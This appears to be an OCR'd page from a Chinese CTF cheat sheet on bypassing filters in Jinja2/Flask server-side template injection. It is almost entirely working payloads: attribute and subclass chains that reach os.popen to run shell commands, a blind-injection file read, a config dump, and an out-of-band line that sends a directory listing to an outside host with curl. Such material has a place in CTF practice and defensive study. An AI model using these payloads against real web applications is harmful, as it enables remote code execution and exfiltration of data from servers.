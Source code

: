 ```
{{request|attr((request.values.application)|join)|attr((request.values.usc*2,request.values.globals,request.values.usc*2)|join)|attr((request.values.usc*2,request.values.getitem,request.values.usc*2)|join)((request.values.usc*2,request.values.builtins,request.values.usc*2)|join)|attr((request.values.usc*2,request.values.getitem,request.values.usc*2)|join)((request.values.usc*2,request.values.import,request.values.usc*2)|join)((request.values.os)|join)|attr((request.values.popen)|join)((request.values.id)|join)|attr((request.values.read)|join)()}}
post: usc=_&application=application&globals=globals&getitem=getitem&builtins=builtins&import=import&os=os&popen=popen&id=cat%20flag.txt&read=read
//其他的也类似
```

2. 过滤`[]`

```
1. __getitem__
 {{().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(59).__init__.func_globals.values().__getitem__(13).__getitem__('eval')('__import__("os").popen("cat /flag").read()')}}
2. pop
 {{().__class__.__bases__.pop(0).__subclasses__().pop(59).__init__.func_globals.values().pop(13).pop('eval')('__import__("os").popen("cat /flag").read()')}}
3. get
4. setdefault
```

3. 过滤`.`

```
1. []
    ''.__class__ => ''["__class__"]
2. attr
    ''.__class__ => ''|attr('__class__') or getattr('',"__class__")
```

4. 过滤 {{}}

• 使用 {%%} 外带数据或盲注

```
//外带
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://http.bin.buuoj.cn/1inhq4f1 -d `ls / |  grep flag`;') %}1{% endif %}
//盲注
{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}1{% endif %}
//打印
{%print config%}
```

5. 过滤_

```
和过滤字符串一样
```

```
使用a.__init__.__globals__.__builtins__['eval']
```
